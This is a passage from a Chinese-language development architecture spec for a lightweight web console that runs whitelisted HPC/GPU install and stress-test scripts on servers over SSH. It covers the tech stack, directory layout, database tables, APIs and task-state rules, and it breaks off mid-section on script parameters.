






# HPC 运维自动化控制台开发架构说明

版本：v1.3  
定位：轻量级 HPC / GPU 服务器运维自动化平台  
第一阶段目标：优先实现基础编译器、Intel OneAPI、OpenMPI、GPU 驱动 / CUDA、Stress 压测等脚本的 Web 化执行、实时日志和任务记录。  
后期目标：Apptainer、Slurm、Ansible、批量编排、镜像管理等能力后续逐步扩展，不进入第一版开发范围。

---

## 0. 技术选型总览（第一阶段固定）

第一阶段不要频繁更换技术栈，先按下面组合开发。

| 模块 | 技术 | 说明 |
|---|---|---|
| 前端框架 | Vue 3 | 后台管理控制台主框架 |
| 前端 UI | Element Plus | 服务器表格、表单、任务卡片、弹窗、进度条 |
| 前端构建 | Vite | Vue 项目构建工具 |
| 前端请求 | Axios | 调用后端 REST API |
| 前端状态管理 | Pinia | 管理服务器、任务、日志状态 |
| 前端路由 | Vue Router | 页面路由管理 |
| 实时日志 | WebSocket | 后端实时推送 SSH 执行日志到前端 |
| 后端框架 | FastAPI | 提供 REST API 和 WebSocket |
| 后端运行 | Uvicorn | FastAPI ASGI 服务 |
| 数据校验 | Pydantic | 请求参数、响应结构校验 |
| ORM | SQLAlchemy | 数据库模型和查询 |
| 数据库 | SQLite → MySQL | 第一阶段 SQLite，正式部署可切 MySQL |
| SSH 执行 | Paramiko | SSH Key 登录目标服务器，上传并执行脚本 |
| 任务队列 | asyncio.Queue / 内存队列 | 第一阶段够用，后期可换 Redis + Celery |
| 脚本参数 | params_schema + params | 脚本定义参数模板，任务保存实际执行参数 |
| 配置管理 | `.env` + pydantic-settings | 管理数据库地址、密钥路径、运行端口等 |
| 部署方式 | Docker Compose / 裸机部署 | 第一阶段二选一，建议先裸机跑通，再容器化 |

第一阶段固定开发边界：

```text
1. 前端：Vue3 + Element Plus
2. 后端：FastAPI + SQLAlchemy + Paramiko
3. 数据库：SQLite 优先，后期兼容 MySQL
4. 日志：WebSocket 实时推送
5. 执行：SSH Key 登录目标服务器，只执行白名单脚本
6. 任务：先做单服务器单脚本执行，后续再做批量并发
7. 参数：支持安装路径、版本号、压测时长、GPU编号、输出目录等脚本参数
```

---

## 1. 项目背景

当前 HPC 运维软件安装场景中，第一阶段优先覆盖以下工作：

- 基础编译器安装，例如 GCC / G++ / GFortran / CMake / Make / Ninja 等
- Intel OneAPI 安装
- OpenMPI 编译安装
- GPU 驱动安装
- CUDA 安装
- Stress 压测脚本执行，例如 GPU / CPU / 内存 / 磁盘压测
- 安装后基础验证，例如 `gcc --version`、`mpirun --version`、`nvidia-smi`、`nvcc --version`

后续再逐步增加：

- Apptainer 安装与镜像管理
- Slurm 作业模板
- Ansible 编排
- 更多科学计算软件安装模板

这些工作通常依赖大量 Shell 脚本，手工 SSH 登录服务器执行，存在以下问题：

- 重复操作多
- 日志分散
- 失败难追踪
- 多台服务器执行麻烦
- 脚本版本难管理
- 高风险命令缺少确认机制
- 执行状态不可视化

因此需要开发一个轻量级 Web 控制台，把 SSH + 脚本执行 + 日志查看 + 任务状态统一管理起来。

---

## 2. 系统目标

开发一个轻量级 Web 运维自动化平台，用于统一管理 HPC / GPU 服务器的软件安装、环境部署和压测任务。

核心功能：

```text
1. 添加服务器
2. 检测服务器连通性
3. 选择安装脚本
4. SSH 到目标服务器执行脚本
5. 实时查看执行日志
6. 记录任务状态和历史
7. 支持脚本参数，例如安装路径、版本号、压测时长、GPU编号、输出目录
8. 第一阶段支持基础编译器 / OneAPI / OpenMPI / GPU驱动 / CUDA / Stress压测等任务
9. 后期再扩展 Apptainer / Slurm / Ansible / 科学软件安装模板
```

第一版重点做简单、稳定、可用，不追求复杂平台化。

---

## 2.1 第一阶段功能范围

第一阶段只围绕“服务器基础环境安装与压测”开发，不做大而全的平台。

必须实现的任务类型：

```text
1. 基础编译器 / 编译工具
   - gcc
   - g++
   - gfortran
   - make
   - cmake
   - ninja
   - perl / python3 / wget / curl / git 等基础依赖

2. Intel OneAPI
   - oneAPI Base Toolkit
   - oneAPI HPC Toolkit
   - ifx / icx / icpx 环境变量配置
   - setvars.sh 验证

3. OpenMPI
   - 指定版本源码编译
   - 指定安装路径
   - modulefile 或 env.sh 生成
   - mpirun / mpicc / mpif90 验证

4. GPU 驱动与 CUDA
   - NVIDIA Driver 安装
   - CUDA Toolkit 安装
   - nvidia-smi 验证
   - nvcc --version 验证

5. Stress 压测
   - GPU Burn
   - CPU stress-ng
   - Memory stress-ng
   - Disk fio / stress-ng
   - 输出日志与结果文件
```

第一阶段暂不实现，但目录和接口可以预留：

```text
1. Apptainer 镜像管理
2. Slurm 作业提交
3. Ansible 编排
4. 多用户审批
5. 大规模并发 Worker
6. 科学软件一键安装，例如 Amber、GROMACS、GPUMD 等
```

---

## 3. 总体架构图



---

## 4. 系统本质

这个系统不是普通网站，而是：

```text
Web UI + FastAPI 控制平面 + SSH 执行器 + 脚本白名单 + 实时日志 + 任务状态机
```

等价于一个轻量版：

```text
Jenkins + Ansible Tower + Rundeck
```

但第一版不做复杂编排，只做：

```text
服务器管理 + 基础安装脚本管理 + 单机任务执行 + 实时日志 + 历史记录
```

---

## 5. 技术栈详细规则

### 5.1 前端技术栈

```text
框架：Vue 3
UI组件：Element Plus
构建工具：Vite
HTTP请求：Axios
状态管理：Pinia
路由：Vue Router
实时日志：WebSocket
图标：Element Plus Icons
```

前端开发限制：

```text
1. 前端不要使用 React
2. 前端不要做 SSH 执行逻辑
3. 前端不要拼接 Shell 命令
4. 前端只负责展示、选择、提交任务、查看日志
5. 所有 API 调用必须封装到 src/api/ 目录
```

---

### 5.2 后端技术栈

```text
框架：FastAPI
运行服务：Uvicorn
ORM：SQLAlchemy
数据校验：Pydantic
SSH库：Paramiko
任务队列：第一版用内存队列，后续可升级 Redis + Celery
日志推送：FastAPI WebSocket
配置管理：.env + pydantic-settings
```

后端职责：

```text
1. API 接口
2. 任务创建
3. SSH 执行
4. 日志采集
5. 状态更新
6. 安全校验
7. 脚本白名单控制
8. Server Lock 防并发冲突
```

---

### 5.3 数据库选择

第一版建议：

```text
开发阶段：SQLite
正式部署：MySQL
```

原因：

```text
SQLite：开发快，依赖少，适合 MVP
MySQL：后续多用户、多任务、长期运行更稳定
```

---

## 6. 推荐项目目录结构

```text
hpc-control-panel/
│
├── frontend/
│   ├── package.json
│   ├── vite.config.ts
│   ├── index.html
│   └── src/
│       ├── main.ts
│       ├── router/
│       │   └── index.ts
│       ├── store/
│       │   ├── server.ts
│       │   ├── task.ts
│       │   └── log.ts
│       ├── api/
│       │   ├── request.ts
│       │   ├── server.ts
│       │   ├── task.ts
│       │   └── script.ts
│       ├── views/
│       │   ├── Dashboard.vue
│       │   ├── Servers.vue
│       │   ├── TaskRunner.vue
│       │   ├── TaskHistory.vue
│       │   ├── Scripts.vue
│       │   └── Settings.vue
│       ├── components/
│       │   ├── ServerTable.vue
│       │   ├── TaskCard.vue
│       │   ├── LogViewer.vue
│       │   ├── StatusTag.vue
│       │   └── ConfirmDialog.vue
│       └── styles/
│           └── global.css
│
├── backend/
│   ├── main.py
│   ├── requirements.txt
│   ├── .env.example
│   ├── app/
│   │   ├── api/
│   │   │   ├── servers.py
│   │   │   ├── tasks.py
│   │   │   ├── scripts.py
│   │   │   ├── logs.py
│   │   │   └── websocket.py
│   │   ├── core/
│   │   │   ├── config.py
│   │   │   ├── security.py
│   │   │   ├── ssh_executor.py
│   │   │   ├── task_scheduler.py
│   │   │   ├── log_manager.py
│   │   │   └── server_lock.py
│   │   ├── models/
│   │   │   ├── server.py
│   │   │   ├── script.py
│   │   │   ├── task.py
│   │   │   ├── task_log.py
│   │   │   └── user.py
│   │   ├── schemas/
│   │   │   ├── server.py
│   │   │   ├── script.py
│   │   │   ├── task.py
│   │   │   └── log.py
│   │   ├── db/
│   │   │   ├── database.py
│   │   │   └── init_db.py
│   │   └── scripts/
│   │       ├── compiler/
│   │       │   ├── install_base_tools.sh
│   │       │   └── install_gcc_toolchain.sh
│   │       ├── cuda/
│   │       │   ├── install_gpu_driver.sh
│   │       │   └── install_cuda_12_8.sh
│   │       ├── mpi/
│   │       │   └── install_openmpi_4_1_6.sh
│   │       ├── oneapi/
│   │       │   └── install_oneapi_2024.sh
│   │       └── stress/
│   │           ├── gpu_burn.sh
│   │           ├── cpu_stress.sh
│   │           ├── memory_stress.sh
│   │           └── disk_stress.sh
│   │
│   │       # 后期扩展目录，第一版可以不实现
│   │       ├── apptainer/
│   │       │   └── install_apptainer.sh
│   │       └── slurm/
│   │           └── submit_job_template.sh
│
├── docs/
│   ├── architecture.md
│   ├── api.md
│   ├── database.md
│   ├── script-standard.md
│   └── deploy.md
│
├── docker-compose.yml
└── README.md
```

---

## 7. 前端页面架构图



---

## 8. 前端页面设计

### 8.1 左侧菜单

```text
1. 仪表盘
2. 服务器管理
3. 任务执行
4. 任务历史
5. 脚本管理
6. 系统设置
```

---

### 8.2 仪表盘 Dashboard

展示：

```text
1. 服务器总数
2. 在线服务器数量
3. 任务总数
4. 成功任务数量
5. 失败任务数量
6. 运行中任务数量
7. 最近任务列表
```

---

### 8.3 服务器管理 Servers

功能：

```text
1. 添加服务器
2. 编辑服务器
3. 删除服务器
4. SSH 连通性测试
5. 探测系统信息
6. 查看服务器状态
```

字段：

```text
服务器名称
IP 地址
SSH 端口
用户名
认证方式
私钥路径
系统信息
GPU 信息
状态
```

---

### 8.4 任务执行 TaskRunner

功能：

```text
1. 选择目标服务器
2. 选择要执行的脚本
3. 查看脚本描述
4. 设置执行参数
5. 点击开始执行
6. 查看实时日志
7. 查看任务状态
8. 停止任务
```

建议任务卡片：

```text
基础编译器 / 编译工具
GPU Driver
CUDA 12.8
OpenMPI 4.1.6
Intel OneAPI 2024
GPU Burn
CPU Stress
Memory Stress
Disk Stress
```

---

### 8.5 实时日志 LogViewer

日志窗口设计为类终端样式。

日志显示示例：

```text
[2026-06-14 11:20:00] [INFO] [node1] task started
[2026-06-14 11:20:01] [INFO] [node1] detecting OS...
[2026-06-14 11:20:03] [OK]   [node1] CUDA already installed
[2026-06-14 11:20:05] [INFO] [node1] task finished
```

---

### 8.6 任务历史 TaskHistory

展示：

```text
任务ID
服务器
脚本名称
状态
开始时间
结束时间
退出码
操作者
查看日志
```

---

### 8.7 脚本管理 Scripts

功能：

```text
1. 查看脚本列表
2. 添加脚本元信息
3. 启用 / 禁用脚本
4. 标记高风险脚本
5. 查看脚本路径
6. 查看脚本描述
```

---

## 9. 前端开发规则

### 9.1 页面布局规则

页面使用后台管理系统结构：

```text
左侧菜单 + 顶部导航 + 内容区
```

---

### 9.2 组件化规则

所有页面必须组件化，不允许一个 Vue 文件写全部逻辑。

建议组件：

```text
ServerTable.vue        服务器表格
TaskCard.vue           任务卡片
LogViewer.vue          日志窗口
StatusTag.vue          状态标签
ConfirmDialog.vue      高风险确认框
ProgressPanel.vue      任务进度面板
```

---

### 9.3 API 调用规则

所有 API 请求统一封装在：

```text
src/api/
```

禁止在 Vue 页面里直接写 axios 请求地址。

示例：

```ts
// src/api/task.ts
export function runTask(data) {
  return request.post('/tasks/run', data)
}
```

---

### 9.4 WebSocket 日志规则

日志窗口只负责展示，不负责解析业务。

WebSocket 地址：

```text
/ws/tasks/{task_id}/logs
```

日志格式：

```json
{
  "task_id": "task-001",
  "level": "INFO",
  "message": "[node1] CUDA install started",
  "timestamp": "2026-06-14 11:20:00"
}
```

---

## 10. 后端架构图



---

## 11. 后端开发规则

### 11.1 API 层规则

API 层只做：

```text
1. 参数接收
2. 参数校验
3. 调用 service/core
4. 返回结果
```

API 层禁止直接写 SSH 执行逻辑。

---

### 11.2 SSH 执行规则

SSH 执行统一放在：

```text
backend/app/core/ssh_executor.py
```

只允许执行白名单脚本，不允许执行用户输入的任意命令。

禁止这种设计：

```python
ssh.exec_command(user_input_command)
```

必须是：

```python
script = get_script_from_whitelist(script_id)
ssh.exec_command(f"bash {safe_script_path}")
```

---

### 11.3 任务执行规则

任务执行必须有状态机：

```text
PENDING   等待执行
RUNNING   正在执行
SUCCESS   执行成功
FAILED    执行失败
CANCELLED 已取消
TIMEOUT   执行超时
```

任务状态流转：



---

### 11.4 Server Lock 规则

同一台服务器同一时间默认只允许一个安装任务运行。

原因：

```text
CUDA / Driver / MPI / OneAPI 安装任务可能会修改系统库、环境变量、驱动、内核模块。
多个任务并行容易冲突。
```

规则：

```text
1. node1 正在执行 CUDA 安装时，不能同时执行 OpenMPI 安装
2. 可以允许不同服务器并行
3. 压测任务和安装任务默认也不能同时跑
4. 后续可以按任务类型扩展 lock 策略
```

---

### 11.5 Timeout 规则

所有任务必须有超时机制。

建议默认值：

```text
普通检测任务：5 分钟
普通安装任务：60 分钟
CUDA / Driver 安装：120 分钟
压测任务：用户可设置时长
```

任务超时后状态改为：

```text
TIMEOUT
```

---

## 12. SSH 执行器设计

### 12.1 SSH 连接方式

第一版只支持：

```text
SSH Key 登录
```

不做密码登录。

服务器表只保存：

```text
host
port
username
key_path
```

私钥文件存放在后端服务器本地，例如：

```text
/backend/keys/node1_key
```

权限必须是：

```bash
chmod 600 backend/keys/node1_key
```

---

### 12.2 SSH 执行流程

```text
1. 根据 server_id 查询服务器
2. 根据 script_id 查询白名单脚本
3. 检查服务器是否被 lock
4. 建立 SSH 连接
5. 上传脚本到远程临时目录
6. 执行脚本
7. 实时读取 stdout / stderr
8. 写入数据库 task_logs
9. 通过 WebSocket 推送给前端
10. 根据退出码更新任务状态
11. 释放 server lock
```

---

### 12.3 脚本上传路径

建议统一上传到：

```text
/tmp/hpc-control-panel/{task_id}/
```

执行：

```bash
bash /tmp/hpc-control-panel/{task_id}/script.sh
```

执行完成后可选清理。

---

### 12.4 不建议直接执行本地路径

不要假设目标服务器上已经存在：

```text
/backend/scripts/install_cuda.sh
```

正确方式：

```text
后端读取本地脚本 → SFTP 上传到目标服务器 → SSH 执行远程临时脚本
```

---

## 13. 数据库设计

### 13.1 servers 表

```sql
CREATE TABLE servers (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    name VARCHAR(100) NOT NULL,
    host VARCHAR(100) NOT NULL,
    port INTEGER DEFAULT 22,
    username VARCHAR(100) NOT NULL,
    auth_type VARCHAR(20) DEFAULT 'key',
    key_path VARCHAR(255),
    status VARCHAR(20) DEFAULT 'unknown',
    os_info VARCHAR(255),
    gpu_info VARCHAR(255),
    created_at DATETIME,
    updated_at DATETIME
);
```

---

### 13.2 scripts 表

```sql
CREATE TABLE scripts (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    name VARCHAR(100) NOT NULL,
    category VARCHAR(50) NOT NULL,
    version VARCHAR(50),
    file_path VARCHAR(255) NOT NULL,
    description TEXT,
    enabled BOOLEAN DEFAULT 1,
    dangerous BOOLEAN DEFAULT 0,
    params_schema TEXT,
    created_at DATETIME,
    updated_at DATETIME
);
```

---

### 13.3 tasks 表

```sql
CREATE TABLE tasks (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    task_id VARCHAR(100) UNIQUE NOT NULL,
    server_id INTEGER NOT NULL,
    script_id INTEGER NOT NULL,
    status VARCHAR(20) DEFAULT 'PENDING',
    start_time DATETIME,
    end_time DATETIME,
    exit_code INTEGER,
    params TEXT,
    error_message TEXT,
    created_at DATETIME,
    updated_at DATETIME
);
```

---

### 13.4 task_logs 表

```sql
CREATE TABLE task_logs (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    task_id VARCHAR(100) NOT NULL,
    level VARCHAR(20) DEFAULT 'INFO',
    message TEXT NOT NULL,
    created_at DATETIME
);
```

---

### 13.5 users 表

```sql
CREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username VARCHAR(100) UNIQUE NOT NULL,
    password_hash VARCHAR(255) NOT NULL,
    role VARCHAR(50) DEFAULT 'admin',
    created_at DATETIME
);
```

第一版可以先只做单用户 admin。

---

## 14. API 接口设计

### 14.1 服务器接口

```http
GET /api/servers
POST /api/servers
GET /api/servers/{server_id}
PUT /api/servers/{server_id}
DELETE /api/servers/{server_id}
POST /api/servers/{server_id}/test
POST /api/servers/{server_id}/detect
```

---

### 14.2 脚本接口

```http
GET /api/scripts
POST /api/scripts
GET /api/scripts/{script_id}
PUT /api/scripts/{script_id}
DELETE /api/scripts/{script_id}
```

---

### 14.3 任务接口

```http
POST /api/tasks/run
GET /api/tasks
GET /api/tasks/{task_id}
POST /api/tasks/{task_id}/cancel
GET /api/tasks/{task_id}/logs
```

---

### 14.3.1 创建任务请求格式

`POST /api/tasks/run` 必须支持 params 参数。

```json
{
  "server_id": 1,
  "script_id": 3,
  "params": {
    "install_prefix": "/opt/openmpi-4.1.6-gcc11",
    "version": "4.1.6",
    "make_jobs": 32
  }
}
```

后端处理要求：

```text
1. 根据 script_id 查询 scripts 表
2. 检查 enabled 是否为 true
3. 读取 params_schema
4. 校验 params 是否符合 schema
5. 创建 tasks 记录并保存 params
6. 后台执行任务
7. 返回 task_id
```

返回示例：

```json
{
  "task_id": "task-20260614-0001",
  "status": "PENDING"
}
```

---

### 14.4 WebSocket

```http
/ws/tasks/{task_id}/logs
```

---

## 15. 任务执行流程图



---

## 15.1 第一阶段脚本分类

第一版脚本分类必须围绕以下几类，不要一开始把范围扩大。

| 分类 | 目录 | 典型脚本 | 验证命令 |
|---|---|---|---|
| 基础编译器 | `compiler/` | `install_base_tools.sh`, `install_gcc_toolchain.sh` | `gcc --version`, `g++ --version`, `cmake --version` |
| OneAPI | `oneapi/` | `install_oneapi_2024.sh` | `source setvars.sh && ifx --version` |
| OpenMPI | `mpi/` | `install_openmpi_4_1_6.sh` | `mpirun --version`, `mpicc --showme` |
| GPU / CUDA | `cuda/` | `install_gpu_driver.sh`, `install_cuda_12_8.sh` | `nvidia-smi`, `nvcc --version` |
| Stress 压测 | `stress/` | `gpu_burn.sh`, `cpu_stress.sh`, `memory_stress.sh`, `disk_stress.sh` | 日志、退出码、结果文件 |

注意：

```text
1. 第一版不要求实现所有版本组合。
2. 每类先做一个稳定脚本模板。
3. 后续新增软件时，只需要在 scripts 表新增记录和脚本文件。
4. 不要让前端直接上传任意脚本执行。
```

---

## 15.2 脚本参数机制（第一阶段必须支持）

第一阶段虽然先做基础任务，但不能只做“固定脚本一键执行”。必须支持脚本参数，因为实际运维会经常需要填写：

```text
1. 安装路径
2. 软件版本
3. 编译器类型
4. 并行编译线程数
5. 压测时长
6. GPU 编号
7. 输出目录
8. 是否允许重启
9. 是否配置环境变量
```

### 15.2.1 参数机制目标

目标是：

```text
